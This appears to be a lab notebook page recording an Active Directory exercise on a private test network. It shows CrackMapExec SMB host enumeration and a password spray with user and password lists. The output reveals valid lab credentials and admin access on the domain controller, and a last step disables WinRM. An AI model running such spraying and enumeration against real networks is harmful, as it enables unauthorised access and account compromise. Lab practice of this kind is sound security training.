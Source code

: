 Run Crackmapexec smb on subnet:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ crackmapexec smb 192.168.175.0/24
SMB         192.168.175.1   445    HP-ENVY          [*] Windows 10.0 Build 19041 x64 (name:HP-ENVY) (domain:hp-envy) (signing:False) (SMBv1:False)
SMB         192.168.175.132 445    WS01             [*] Windows 10.0 Build 22621 x64 (name:WS01) (domain:xyz.com) (signing:False) (SMBv1:False)
SMB         192.168.175.155 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
```                                                                     

---
Try other Crackmap options:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success
SMB         192.168.175.132 445    WS01             [*] Windows 10.0 Build 22621 x64 (name:WS01) (domain:xyz.com) (signing:False) (SMBv1:False)
SMB         192.168.175.155 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
SMB         192.168.175.132 445    WS01             [+] xyz.com\alice:bubbles 
SMB         192.168.175.132 445    WS01             [-] xyz.com\alice:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\alice:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\bob:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [+] xyz.com\bob:ashley 
SMB         192.168.175.132 445    WS01             [-] xyz.com\bob:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\charlie:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\charlie:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [+] xyz.com\charlie:P@ssw0rdABC 
SMB         192.168.175.155 445    DC1              [+] xyz.com\alice:bubbles 
SMB         192.168.175.155 445    DC1              [-] xyz.com\alice:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\alice:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\bob:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [+] xyz.com\bob:ashley 
SMB         192.168.175.155 445    DC1              [-] xyz.com\bob:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\charlie:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\charlie:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [+] xyz.com\charlie:P@ssw0rdABC (Pwn3d!)
```
---
We are going to test what we can see via CME on Kali after disabling WinRM,

Log into WS01, and disable Winrm:
```
C:\Users\alice.XYZ> Stop-Service Winrm
```
